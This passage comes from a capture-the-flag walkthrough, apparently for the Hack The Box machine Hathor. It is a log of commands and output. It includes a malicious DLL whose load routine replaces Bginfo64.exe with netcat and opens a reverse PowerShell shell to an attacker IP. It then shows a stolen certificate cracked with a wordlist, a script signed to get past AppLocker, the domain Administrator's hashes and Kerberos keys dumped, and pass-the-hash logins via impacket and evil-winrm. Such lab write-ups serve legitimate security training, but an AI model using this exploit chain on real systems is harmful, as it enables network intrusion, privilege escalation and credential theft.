BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                   Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
WINDCORP\ITDep📌                           Group            S-1-5-21-3783586571-2109290616-3725730865-9601 Mandatory group, Enabled by default, Enabled group
WINDCORP\Protected Users                   Group            S-1-5-21-3783586571-2109290616-3725730865-525  Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```


`locate -i 'nc64.exe'`:
```
/home/nabla/tools/nc.exe/nc64.exe
```

`cp /home/nabla/tools/nc.exe/nc64.exe ./nc64.txt`


`rename-item -path "C:\inetpub\wwwroot\Data\Sites\1\media\logos\nc64.txt" -newname "nc64.exe"`


`rlwrap nc -lnvp 5555`:
```
listening on [any] 5555 ...
```

`vim ./7-zip64.cpp`:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
    HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
            // Take ownership of the Bginfo64.exe file in the "C:\share" directory
            system("cmd /c takeown /F C:\\share\\Bginfo64.exe");
            // Grant full control permissions to the user "ginawild" on the file
            system("cmd /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
            // Copy the nc64.exe file to overwrite Bginfo64.exe in "C:\share"
            system("cmd /c copy C:\\inetpub\\wwwroot\\Data\\Sites\\1\\media\\logos\\nc64.exe C:\\share\\Bginfo64.exe");
            // Execute the copied file (nc64.exe renamed to Bginfo64.exe) to establish a reverse shell
            system("cmd /c C:\\share\\Bginfo64.exe -e powershell 10.10.14.37 5555");
            break;

        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

`x86_64-w64-mingw32-gcc -shared -o 7-zip64.dll 7-zip64.cpp`

`smbclient -k --user='beatricemill@WINDCORP.HTB' --password='!!!!ilovegood17' //hathor.windcorp.htb/share`:
```
WARNING: The option -k|--kerberos is deprecated!
Try "help" to get a list of possible commands.
smb: \> cd scripts
smb: \scripts\> put 7-zip64.dll 
putting file 7-zip64.dll as \scripts\7-zip64.dll (66.2 kb/s) (average 66.2 kb/s)
```

```
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.147] 53026
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\share> 
```
🐚


`whoami`:
```
windcorp\ginawild
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name         SID                                           
================= ==============================================
windcorp\ginawild S-1-5-21-3783586571-2109290616-3725730865-2663📌


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                   Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
WINDCORP\ITDep                             Group            S-1-5-21-3783586571-2109290616-3725730865-9601 Mandatory group, Enabled by default, Enabled group
WINDCORP\Protected Users                   Group            S-1-5-21-3783586571-2109290616-3725730865-525  Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

`dir C:\\Users\ginawild\Desktop`:
```
    Directory: C:\Users\ginawild\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         1/17/2025   1:04 PM             34 user.txt
```

`type C:\\Users\ginawild\Desktop\user.txt`:
```
f994e***************************🚩
```

`dir -Force /`:
```
    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs-         2/14/2022   7:48 PM                $Recycle.Bin🔍
d--h--         4/19/2022   2:24 PM                $WinREAgent
d--hs-         4/19/2022   2:45 PM                Boot
d--hsl          7/7/2021   8:41 PM                Documents and Settings
d-----        10/12/2022   9:30 PM                Get-bADpasswords
d-----         10/2/2021   8:24 PM                inetpub
d-----         10/7/2021   9:38 AM                Microsoft
d-----          5/8/2021  10:20 AM                PerfLogs
d-r---         3/25/2022   8:54 PM                Program Files
d-----         2/15/2022   8:42 PM                Program Files (x86)
d--h--         1/17/2025   1:04 PM                ProgramData
d--hs-         9/23/2021  10:30 PM                Recovery
d-----        12/29/2021  10:17 PM                script
d-----         1/17/2025   1:43 PM                share
d-----          7/7/2021   7:05 PM                StorageReports
d--hs-         9/23/2021  10:31 PM                System Volume Information
d-r---         2/16/2022  10:00 PM                Users
d-----         4/19/2022   2:44 PM                Windows
-arhs-         4/19/2022   2:34 PM         436884 bootmgr
-a-hs-          5/8/2021  10:14 AM              1 BOOTNXT
-arhs-         9/23/2021  10:21 PM           8192 BOOTSECT.BAK
-a-hs-         1/17/2025   1:02 PM          12288 DumpStack.log.tmp
-a-h--         2/14/2022   7:45 PM             28 eipgam.bin
-a-hs-         1/17/2025   1:02 PM      738197504 pagefile.sys 
```

`dir -Force 'C:\\$Recycle.Bin'`:
```
    Directory: C:\$Recycle.Bin

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs-         2/14/2022   7:48 PM                S-1-5-18
d--hs-         10/7/2021  12:51 AM                S-1-5-21-3783586571-2109290616-3725730865-2359                       
d--hs-         1/17/2025   1:14 PM                S-1-5-21-3783586571-2109290616-3725730865-2663🔍                       
d--hs-        10/13/2022   9:05 PM                S-1-5-21-3783586571-2109290616-3725730865-500
```

`dir -Force 'C:\\$Recycle.Bin\\S-1-5-21-3783586571-2109290616-3725730865-2663'`:
```
    Directory: C:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/21/2022   3:37 PM           4053 $RLYS3KF.pfx🔍
-a-hs-         10/2/2021   9:01 PM            129 desktop.ini 
```

`copy-item -path 'C:\\$Recycle.Bin\\S-1-5-21-3783586571-2109290616-3725730865-2663\\$RLYS3KF.pfx' -destination 'C:\\share\\cert.pfx'`


`smbclient -k --user='beatricemill@WINDCORP.HTB' --password='!!!!ilovegood17' //hathor.windcorp.htb/share`:
```
WARNING: The option -k|--kerberos is deprecated!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan 17 08:21:17 2025
  ..                                DHS        0  Tue Apr 19 08:45:15 2022
  $RLYS3KF.pfx                        A     4053  Mon Mar 21 10:37:00 2022
  AutoIt3_x64.exe                     A  1013928  Thu Mar 15 09:17:44 2018
  Bginfo64.exe                        A    45272  Fri Jan 17 07:36:40 2025
  cert.pfx                            A     4053  Mon Mar 21 10:37:00 2022
  scripts                             D        0  Mon Mar 21 17:22:59 2022

                10328063 blocks of size 4096. 2278838 blocks available
smb: \> get cert.pfx
getting file \cert.pfx of size 4053 as cert.pfx (4.4 KiloBytes/sec) (average 4.4 KiloBytes/sec)
```

`openssl pkcs12 -info -in ./cert.pfx`:
```
Enter Import Password:
MAC: sha1, Iteration 2048
MAC length: 20, salt length: 8
Mac verify error: invalid password?
```

`crackpkcs12 ./cert.pfx -d /usr/share/wordlists/rockyou.txt`:
```
Dictionary attack - Starting 2 threads

*********************************************************
Dictionary attack - Thread 1 - Password found: abceasyas123🔑
*********************************************************
```

`openssl pkcs12 -in ./cert.pfx -clcerts -nokeys -out ./cert.crt`:
```
Enter Import Password:
```

`cat ./cert.crt`:
```
Bag Attributes
    localKeyID: 20 4F 12 47 3F D6 91 15 84 50 12 15 75 82 70 B2 57 01 D0 49 
subject=DC=htb, DC=windcorp, CN=Users, CN=Administrator📌
issuer=DC=htb, DC=windcorp, CN=windcorp-HATHOR-CA-1📌
-----BEGIN CERTIFICATE-----
MIIFzzCCBLegAwIBAgITIAAAAAVE7aootjbd3AAAAAAABTANBgkqhkiG9w0BAQsF
ADBOMRMwEQYKCZImiZPyLGQBGRYDaHRiMRgwFgYKCZImiZPyLGQBGRYId2luZGNv
cnAxHTAbBgNVBAMTFHdpbmRjb3JwLUhBVEhPUi1DQS0xMB4XDTIyMDMxODA5MDMx

[...]

E+JKYtK/NFPCeJh6LWoe9o0x6A9mOngWhbzFU21Prag6jbe/A1oKGUEgIpaWeG0k
l/ppleyMU3hEB8NlYvbbS2QrYoDzlb4stmQQwqXjprvao9fxUjywS8Zeik3CRxAJ
F6FAZ12sDy6QhhJ3aP54w09MTmjjsd3wFcsgWOSkK+JRP+H8DdZGwsczCwTdAVSx
m6Ah
-----END CERTIFICATE-----
```

`openssl x509 -in ./cert.crt -noout -text`:
```
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            20:00:00:00:05:44:ed:aa:28:b6:36:dd:dc:00:00:00:00:00:05
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=htb, DC=windcorp, CN=windcorp-HATHOR-CA-1📌
        Validity
            Not Before: Mar 18 09:03:11 2022 GMT
            Not After : Mar 15 09:03:11 2032 GMT
        Subject: DC=htb, DC=windcorp, CN=Users, CN=Administrator📌
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:dc:a6:3e:fe:7f:96:b3:a2:11:df:ce:d5:23:88:
                    13:e2:49:bf:8f:0c:ad:8e:35:12:fe:98:ad:2e:6d:
                    23:de:cb:03:82:8a:0d:c8:8c:4c:49:3f:14:13:12:
                    20:f5:9e:45:c9:a7:de:59:37:cf:c6:d8:1c:93:fb:
                    e5:08:e6:a9:78:05:02:fc:14:ba:49:f0:48:53:2e:
                    67:c8:14:f0:2c:55:00:41:9e:50:09:3e:da:82:7b:
                    b4:15:1d:b3:dd:f5:8b:68:c6:ff:d0:d3:2f:10:e2:
                    09:5d:0b:ed:a3:4b:c8:81:c8:87:47:d8:36:dd:f7:
                    88:59:57:80:db:40:fc:c7:38:a1:6a:8b:2b:b6:a1:
                    6b:fe:02:5e:16:db:41:38:ae:15:8a:b1:59:9a:eb:
                    39:4f:a2:c8:77:ee:09:c9:c0:ae:46:b6:fe:24:54:
                    4f:c5:6f:98:9a:89:11:7b:2b:3b:e7:d0:70:eb:c8:
                    fe:7d:98:81:4f:a4:43:a5:70:d3:34:24:e4:05:fc:
                    0b:67:cd:3d:64:de:44:3e:64:81:42:de:d1:27:6e:
                    2f:cc:82:17:bb:5e:ad:c3:64:6a:a1:19:c7:93:c8:
                    47:ff:86:23:7c:89:83:b0:ab:9f:6a:91:60:9e:34:
                    21:84:4a:88:69:c9:59:92:c9:b5:e1:1a:f3:e0:94:
                    bf:59
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Microsoft certificate template: 
                0..&+.....7.....p...h......./...d.*..<...m..e...
            X509v3 Extended Key Usage: 
                Code Signing
            X509v3 Key Usage: critical
                Digital Signature
            Microsoft Application Policies Extension: 
                0.0
..+.......
            X509v3 Subject Key Identifier: 
                FD:A4:0D:4B:EC:9D:BD:B7:79:0D:F8:C3:95:5E:95:5E:8D:5F:DE:36
            X509v3 Authority Key Identifier: 
                F1:8E:4A:A4:6D:CD:82:B0:69:5D:62:F3:63:9A:7E:8B:6E:72:F6:59
            X509v3 CRL Distribution Points: 
                Full Name:
                  URI:ldap:///CN=windcorp-HATHOR-CA-1,CN=hathor,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb?certificateRevocationList?base?objectClass=cRLDistributionPoint
            Authority Information Access: 
                CA Issuers - URI:ldap:///CN=windcorp-HATHOR-CA-1,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=windcorp,DC=htb?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: 
                othername: UPN::Administrator@windcorp.htb
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        76:b1:02:41:59:6d:63:8f:23:28:7f:5d:1c:73:a3:2e:6f:7e:
        7f:29:ec:a6:6c:ea:7e:58:c5:55:a7:90:c6:d6:0c:88:20:71:
        ea:88:7c:b7:4c:c8:99:76:e3:f6:08:e1:ac:00:60:0b:e7:51:
        99:4e:3d:8e:12:48:33:40:68:43:33:53:3e:b3:66:a3:c0:5b:
        6b:83:1a:15:f4:42:53:6c:57:e3:03:cd:a3:4f:b0:0e:f9:ee:
        c0:a4:7a:4e:3d:7a:7f:4f:39:81:2c:81:fc:c2:f1:e4:cb:8d:
        e9:13:e2:4a:62:d2:bf:34:53:c2:78:98:7a:2d:6a:1e:f6:8d:
        31:e8:0f:66:3a:78:16:85:bc:c5:53:6d:4f:ad:a8:3a:8d:b7:
        bf:03:5a:0a:19:41:20:22:96:96:78:6d:24:97:fa:69:95:ec:
        8c:53:78:44:07:c3:65:62:f6:db:4b:64:2b:62:80:f3:95:be:
        2c:b6:64:10:c2:a5:e3:a6:bb:da:a3:d7:f1:52:3c:b0:4b:c6:
        5e:8a:4d:c2:47:10:09:17:a1:40:67:5d:ac:0f:2e:90:86:12:
        77:68:fe:78:c3:4f:4c:4e:68:e3:b1:dd:f0:15:cb:20:58:e4:
        a4:2b:e2:51:3f:e1:fc:0d:d6:46:c2:c7:33:0b:04:dd:01:54:
        b1:9b:a0:21
```


`Get-AppLockerPolicy -Effective -xml`:
```xml
[...]

<RuleCollection Type="Exe"📌 EnforcementMode="Enabled">
    <FilePublisherRule Id="577ae347-19fd-46b3-8f0a-a4a653dde1bc" 
        Name="Signed by CN=ADMINISTRATOR📌, CN=USERS, DC=WINDCORP, DC=COM" 
        Description="" 
        UserOrGroupSid="S-1-1-0" 
        Action="Allow">📌
        <Conditions>
            <FilePublisherCondition PublisherName="CN=ADMINISTRATOR, CN=USERS, DC=WINDCORP, DC=COM" 
                                    ProductName="*" 
                                    BinaryName="*">
                <BinaryVersionRange LowSection="*" HighSection="*" />
            </FilePublisherCondition>
        </Conditions>
    </FilePublisherRule>
</RuleCollection>

[...]

<RuleCollection Type="Script"📌 EnforcementMode="Enabled">
    <FilePublisherRule Id="12bce21d-8da4-4f93-ab24-eeb9ad0bcc6d" 
        Name="Signed by CN=ADMINISTRATOR📌, CN=USERS, DC=WINDCORP, DC=HTB" 
        Description="" 
        UserOrGroupSid="S-1-1-0" 
        Action="Allow">📌
        <Conditions>
            <FilePublisherCondition PublisherName="CN=ADMINISTRATOR, CN=USERS, DC=WINDCORP, DC=HTB" 
                                    ProductName="*" 
                                    BinaryName="*">
                <BinaryVersionRange LowSection="*" HighSection="*" />
            </FilePublisherCondition>
        </Conditions>
    </FilePublisherRule>
</RuleCollection>

[...]
```

`dir C:\inetpub\wwwroot\Data\Sites\1\media`:
```
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of C:\inetpub\wwwroot\Data\Sites\1\media

01/20/2025  03:52 PM    <DIR>          .
02/15/2022  09:17 PM    <DIR>          ..
01/20/2025  03:18 PM           810,416 accesschk.exe
01/20/2025  03:18 PM           810,416 accesschk.txt
03/21/2022  02:13 PM    <DIR>          htmlfragments
03/21/2022  02:13 PM    <DIR>          logos
01/20/2025  03:17 PM            45,272 nc64.exe
01/20/2025  03:17 PM            45,272 nc64.txt
01/20/2025  03:52 PM            15,970 revsh.aspx
01/20/2025  03:52 PM            15,970 revsh.txt
02/16/2022  10:32 PM            37,585 underconstruction.png
02/15/2022  09:17 PM    <DIR>          xml
02/15/2022  09:17 PM    <DIR>          xsl
               7 File(s)      1,780,901 bytes
               6 Dir(s)   9,326,927,872 bytes free
```

`C:\inetpub\wwwroot\Data\Sites\1\media\accesschk.exe -w -s "ginawild" "C:\\" -u -accepteula > C:\inetpub\wwwroot\Data\Sites\1\media\accesschk_output.txt`

`type C:\inetpub\wwwroot\Data\Sites\1\media\accesschk_output.txt`:
```
RW C:\$Recycle.Bin
RW C:\Get-bADpasswords
RW C:\Microsoft
RW C:\ProgramData
RW C:\StorageReports
RW C:\Get-bADpasswords\.git
RW C:\Get-bADpasswords\.gitignore
RW C:\Get-bADpasswords\Accessible
RW C:\Get-bADpasswords\CredentialManager.psm1
RW C:\Get-bADpasswords\Get-bADpasswords.ps1
RW C:\Get-bADpasswords\Get-bADpasswords_2.jpg
RW C:\Get-bADpasswords\Helper_Logging.ps1
RW C:\Get-bADpasswords\Helper_Passwords.ps1
RW C:\Get-bADpasswords\Image.png
RW C:\Get-bADpasswords\LICENSE.md
RW C:\Get-bADpasswords\New-bADpasswordLists-Common.ps1
RW C:\Get-bADpasswords\New-bADpasswordLists-Custom.ps1
RW C:\Get-bADpasswords\New-bADpasswordLists-customlist.ps1
RW C:\Get-bADpasswords\New-bADpasswordLists-Danish.ps1
RW C:\Get-bADpasswords\New-bADpasswordLists-English.ps1
RW C:\Get-bADpasswords\New-bADpasswordLists-Norwegian.ps1
RW C:\Get-bADpasswords\PSI
RW C:\Get-bADpasswords\README.md
RW C:\Get-bADpasswords\run.vbs📌

[...]

RW C:\Windows\Tasks
RW C:\Windows\Temp
RW C:\Windows\tracing
RW C:\Windows\Registration\CRMLog
 W C:\Windows\System32\Tasks
 W C:\Windows\System32\Tasks_Migrated
RW C:\Windows\System32\Microsoft\Crypto\DSS\MachineKeys
RW C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
RW C:\Windows\System32\spool\drivers\color
 W C:\Windows\SysWOW64\Tasks
RW C:\Windows\Temp\silconfig.log
RW C:\Windows\Temp\vmware-vmtoolsd-GinaWild.log
RW C:\Windows\Temp\vmware-vmusr-GinaWild.log
```

`type C:\Get-bADpasswords\run.vbs`:
```vb
Set WshShell = CreateObject("WScript.Shell")
Command = "eventcreate /T Information /ID 444 /L Application /D " & _
    Chr(34) & "Check passwords" & Chr(34)
WshShell.Run Command

[...]

'' SIG '' tM0sIX9xzrCdC3pUCznVu/16+8qCNF11kROH9UI5WNxW
'' SIG '' nIc54rkc71MzZup+N0L5cxTDKnmUDW99XRcjwNeRGQdx
'' SIG '' lQgfLUl5qzTK6aRKc/nPVHD+yyQ=
'' SIG '' End signature block
```

`$cert = Import-PfxCertificate -FilePath "C:\\share\\cert.pfx" -Password (ConvertTo-SecureString -String 'abceasyas123' -AsPlainText -Force) -CertStoreLocation "Cert:\\CurrentUser\\My"`

`$cert`:
```
   PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My

Thumbprint                                Subject
----------                                -------
204F12473FD6911584501215758270B25701D049  CN=Administrator, CN=Users, DC=windcorp, DC=htb
```

```
@("`$path = 'C:\\Windows\\Temp\\transcript.txt'","Start-Transcript -Path `$path", "Get-ADReplAccount -SamAccountName Administrator -Server 'hathor.windcorp.htb'") | Set-Content "C:\\Get-bADpasswords\\Get-bADpasswords.ps1"
```

`type C:\\Get-bADpasswords\\Get-bADpasswords.ps1`:
```powershell
$path = 'C:\\Windows\\Temp\\transcript.txt'
Start-Transcript -Path $path
Get-ADReplAccount -SamAccountName Administrator -Server 'hathor.windcorp.htb'
```

`Set-AuthenticodeSignature -FilePath "C:\\Get-bADpasswords\\Get-bADpasswords.ps1" -Certificate $cert`:
```
    Directory: C:\Get-bADpasswords

SignerCertificate                         Status                                                                                                  Path
-----------------                         ------                                                                                                  ----
204F12473FD6911584501215758270B25701D049  Valid                                                                                                   Get-bADpasswords.ps1
```

`cscript C:\\Get-bADpasswords\\run.vbs`

`type C:\\Windows\\Temp\\transcript.txt`:
```
**********************
Windows PowerShell transcript start📌
Start time: 20250121155223
Username: WINDCORP\bpassrunner
RunAs User: WINDCORP\bpassrunner📌
Configuration Name:
Machine: HATHOR (Microsoft Windows NT 10.0.20348.0)
Host Application: powershell.exe C:\Get-bADpasswords\Get-bADpasswords.ps1
Process ID: 10924
PSVersion: 5.1.20348.643
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.20348.643
BuildVersion: 10.0.20348.643
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\\Windows\\Temp\\transcript.txt

DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
Sid: S-1-5-21-3783586571-2109290616-3725730865-500
Guid: 526eb447-7a40-4fe9-b95a-f68e9d78efa1
SamAccountName: Administrator🔑
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 1/20/2025 3:06:37 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited,
SystemAclAutoInherited, DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-3783586571-2109290616-3725730865-512
Secrets
  NTHash: b3ff8d7532eef396a5347ed33933030f🔑
  LMHash:
  NTHashHistory:
    Hash 01: b3ff8d7532eef396a5347ed33933030f
    Hash 02: 083feb16c35174cb0f0cae63f34d5b7b
    Hash 03: 525a8625a410e103120a55684d31ca1f
  LMHashHistory:
    Hash 01: 39d3f07dfd8d05e9eff48c6934fff90a
    Hash 02: 42813ade3d911a4f3658221c38cfea58
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: a00793847320902caa206e8e1f94158a
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: 1a4cbf835bab620e
      OldCredentials:
        DES_CBC_MD5
          Key: 316dc23dadda5b32
      Salt: WINDCORP.COMAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: c5d2c64e5b14ae7da0d00e95fa826b8a1755e9901358352b0d273f3ad48bd93a
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 3a13f7631f449f83bb92de205015e619
          Iterations: 4096
        DES_CBC_MD5
          Key: 1a4cbf835bab620e
          Iterations: 4096
      OldCredentials:
        AES256_CTS_HMAC_SHA1_96
          Key: f96f29b664cfca10dd0a9ff0950fcff10cdbf95d563272e0060b2723febdb377
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: b4717ce2bf9435b3685a1f3a9f9af591
          Iterations: 4096
        DES_CBC_MD5
          Key: 316dc23dadda5b32
          Iterations: 4096
      OlderCredentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 10ccd2ca0da214cf1f45462e8b75cfaf3f4f5ff5871e9492da491d5686941447
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 47495d8390f18931a0fb506d4af2cae2
          Iterations: 4096
        DES_CBC_MD5
          Key: 015762feeafbf102
          Iterations: 4096
      ServiceCredentials:
      Salt: WINDCORP.COMAdministrator
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
      Hash 01: 7f736922059914d4875c9febbf929890
      Hash 02: 0345e807081a5011149f9da4255d413f
      Hash 03: b437a8e9a6d6e7315603d4cb33d4e90c
      Hash 04: 7f736922059914d4875c9febbf929890
      Hash 05: d7d506ef3de61f6ff144005cfeb4b2d3
      Hash 06: b83fdd7207aebf8f3c920353599983e4
      Hash 07: f8c15db0e57137889e6f226ef46dee14
      Hash 08: ce84b8be199d80f17e2aca5c364e09c6
      Hash 09: 17a454845ba784c2f55b2d0e79fb2f20
      Hash 10: 9664008cc85d882b43e56df8673ea661
      Hash 11: 98505f47e364e5124de29a88d13e0fee
      Hash 12: ce84b8be199d80f17e2aca5c364e09c6
      Hash 13: 7a51ad2f1306f66f8a27b1d7b1ddf6c6
      Hash 14: 0eab9010a84cee3ce7fcbd7cb5e19f41
      Hash 15: fd54b50b868a06c8069f880a2da0f738
      Hash 16: 99727c10523f58023cff69eaaaea5454
      Hash 17: c3d16761fc1e13193e8d81997c264ab0
      Hash 18: 2c52c6f2d181050b2c184504ac54d57e
      Hash 19: 5bd1dc316750432c39c1127bf1bf15e3
      Hash 20: 95d82ee1982eac428dac558e8bbd48d3
      Hash 21: b949ed5eb5d470d4b07673ee0986810f
      Hash 22: f57c959ee6a8232154752e087b1d9c2e
      Hash 23: 60396d41e23fb72597e65f8edf7867c6
      Hash 24: a92e1051bfa7fbfa0de02c7f4943a4c9
      Hash 25: ef8322e9e4936ce94ca94a7f6c2c2d8f
      Hash 26: c1fcb77241e1891260e313dc4a3b864b
      Hash 27: 4294af5563a57060a06a3b820e1cbd7d
      Hash 28: 820dee1c6375b5da136424e30ec61412
      Hash 29: 78015edbfa85b52575a46a474ac7f97e
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:


PS>$global:?
True
**********************
Windows PowerShell transcript end
End time: 20250121155224
**********************
```


`impacket-psexec 'WINDCORP.HTB/Administrator@hathor.windcorp.htb' -hashes ':b3ff8d7532eef396a5347ed33933030f' -k`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Requesting shares on hathor.windcorp.htb.....
[*] Found writable share ADMIN$
[*] Uploading file hFsUXmAa.exe
[*] Opening SVCManager on hathor.windcorp.htb.....
[*] Creating service VTbo on hathor.windcorp.htb.....
[*] Starting service VTbo.....
```
❌

`impacket-wmiexec 'WINDCORP.HTB/Administrator@hathor.windcorp.htb' -hashes ':b3ff8d7532eef396a5347ed33933030f' -k`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
🐚

<🔄 Alternative 🔄>

`impacket-getTGT 'windcorp.htb/Administrator' -hashes ':b3ff8d7532eef396a5347ed33933030f':
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator.ccache🎟️
```

`export KRB5CCNAME=/home/nabla/Administrator.ccache`

`klist`:
```
Ticket cache: FILE:/home/nabla/Administrator.ccache
Default principal: Administrator@WINDCORP.HTB

Valid starting     Expires            Service principal
01/17/25 09:41:34  01/17/25 19:41:34  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 01/18/25 09:41:34
```

`evil-winrm -i 'hathor.windcorp.htb' -u 'Administrator' -r 'windcorp.htb'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
🐚

</🔄 Alternative 🔄>


`whoami`:
```
windcorp\administrator
```

`dir C:\Users\Administrator\Desktop`:
```
    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/30/2022   2:47 PM                restore
-ar---         1/17/2025   1:04 PM             34 root.txt
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
36dd4***************************🚩
```


---
---
